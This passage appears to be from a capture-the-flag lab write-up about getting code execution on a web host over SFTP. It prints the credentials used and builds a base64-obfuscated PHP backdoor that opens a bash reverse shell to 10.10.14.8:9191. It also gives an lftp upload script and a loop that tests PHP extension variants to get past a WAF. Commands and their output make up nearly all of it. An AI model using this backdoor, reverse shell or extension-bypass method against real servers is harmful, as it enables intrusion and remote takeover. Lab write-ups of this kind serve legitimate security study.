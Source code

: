 #### 2.1. SFTP access
```
# sshpass -pb761463b sftp ots-2MTQ2M2I@10.10.10.133
Connected to ots-2MTQ2M2I@10.10.10.133.
sftp> ls
public_html
```

#### 2.2. Uploading a PHP backdoor via SFTP

a. Prepare command exec backdoor
```
# echo '<?php ' > back.php
# echo -n "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.8/9191 0>&1'" \
| base64 | tr -d '\n' | php -R 'echo "exec(base64_decode(\"".$argn."\"));";' >> back.php
```

b. Uploaded script won't give code execution (WAF)
```
sftp> cd public_html/
sftp> put back.php
Uploading back.php to /public_html/back.php
back.php                100%  111     1.6KB/s   00:00
# http http://10.10.10.133/~ots-2MTQ2M2I/back.php -phH
```


#### 2.3. Uploading variations of PHP extensions

a. Using `lftp` to automate uploading task
```bash
#!/bin/sh
HOST=10.10.10.133
USER=ots-2MTQ2M2I
PASS=b761463b
lftp -u ${USER},${PASS} sftp://${HOST} <<EOF
cd public_html
put $1
bye
EOF
```

b. Uploading various PHP extensions
```
# touch /tmp/x.{phtml,php3,php4,php5,php7,phps,php-s,pht,phar}
# for i in `ls /tmp/x.*`; do echo '<?php echo system("whoami");' > $i; done
# for i in `ls /tmp/x.*`; do bash sftp.sh $i; done
# cd /tmp/
# for i in `ls x.*`
do 
  echo -n "$i - "
  http http://10.10.10.133/~ots-2MTQ2M2I/$i -ph | head -n1
done
x.phar - HTTP/1.1 200 OK
x.php3 - HTTP/1.1 403 Forbidden
x.php4 - HTTP/1.1 403 Forbidden
x.php5 - HTTP/1.1 403 Forbidden
x.php7 - HTTP/1.1 403 Forbidden
x.php-s - HTTP/1.1 200 OK
x.phps - HTTP/1.1 403 Forbidden
x.pht - HTTP/1.1 403 Forbidden
x.phtml - HTTP/1.1 403 Forbidden
```

c. Acceptable WAF bypass extension won't get interpreted as PHP code
```
# echo '<?php echo 123;' > /tmp/x.php-s
# bash sftp.sh /tmp/x.php-s
# http "http://10.10.10.133/~ots-2MTQ2M2I/x.php-s" -b
<?php echo 123;

```
